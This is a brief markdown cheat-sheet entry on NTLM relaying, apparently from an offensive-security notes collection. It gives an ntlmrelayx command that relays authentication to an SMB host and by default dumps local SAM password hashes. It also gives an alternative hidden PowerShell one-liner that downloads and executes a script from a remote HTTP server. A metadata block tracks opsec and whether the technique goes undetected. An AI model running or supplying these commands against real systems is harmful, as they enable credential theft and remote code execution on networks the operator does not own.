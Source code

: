 ## [[NTLM Relaying]]
Run ntlmrelayx or responder.
By default (not provided -c) it will do `secretsdump` to dump the local SAM hashes
``````sh
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server

# alternatively provide a command with:
-c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
``````

```meta
requirements: 
results: 
opsec: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx
description: NTLM relay tool
undetected: 
```